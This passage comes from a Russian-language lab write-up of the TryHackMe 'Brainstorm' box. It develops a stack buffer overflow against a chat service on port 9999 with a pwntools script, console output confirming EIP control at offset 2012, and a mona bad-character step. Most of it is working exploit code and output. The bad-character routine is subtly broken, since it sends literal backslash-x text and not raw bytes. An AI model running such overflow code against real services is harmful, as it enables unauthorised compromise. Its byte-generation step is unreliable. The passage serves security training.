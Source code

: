 ```python
    finally:
        try:
            io.close()
        except:
            pass

    log.info("Test completed. Check debugger for EIP value (should be 42424242).")

# ==================== MAIN =====================
if __name__ == '__main__':
    run_exploit()
```

Перезапускаю отладку в дебаггере и запускаю скрипт  
```bash
┌──(.venv)─(kali㉿0x2d-pentest)-[~/Labs/TryHackMe/Win Medium - Brainstorm/exploits]
└─$ python3 x.py
[+] Opening connection to 192.168.56.124 on port 9999: Done
Welcome to Brainstorm chat (beta)
Please enter your username (max 20 characters): 
b'--pentest'
Write a message: 
[+] Server stopped responding - likely crashed!
[*] Closed connection to 192.168.56.124 port 9999
[*] Test completed. Check debugger for EIP value (should be 42424242).
```

И убеждаюсь, что, действительно, контролирую `EIP` и `stack`
<img width="1915" height="974" alt="image" src="https://github.com/user-attachments/assets/a0729223-ea6c-4310-b57c-40e5fcc2f3f9" />  

Приступаю к нахождению бэдчаров.
Генерирую в `immunity debugger` последовательность без нулевого байта  
```python
!mona bytearray -b "\x00"
```

Меняю функцию 
```python
def run_exploit():
    offset = 2012
    junk   = b'A' * offset
    EIP    = b'B' * 4

    exclude_list = ['\\x00']
    stack = ''.join(f'\\x{x:02x}' for x in range(1, 256) if f'\\x{x:02x}' not in exclude_list)

    payload = b''.join([
        junk,
        EIP,
        stack.encode('latin-1'),
    ])

    try:
        io = start()
        print(io.recvuntil(b'Please enter your username (max 20 characters): ').decode('utf-8'))
        io.sendline(USERNAME)
        print(USERNAME)
        print(io.recvuntil(b'Write a message: ').decode('utf-8'))
        io.sendline(payload)
        try:
            response = io.recv(timeout=RESPONSE_TIMEOUT)
            if response:
                log.warning(f"Server responded unexpectedly: {response[:100]}...")
            else:
                log.success("Server stopped responding - likely crashed!")
```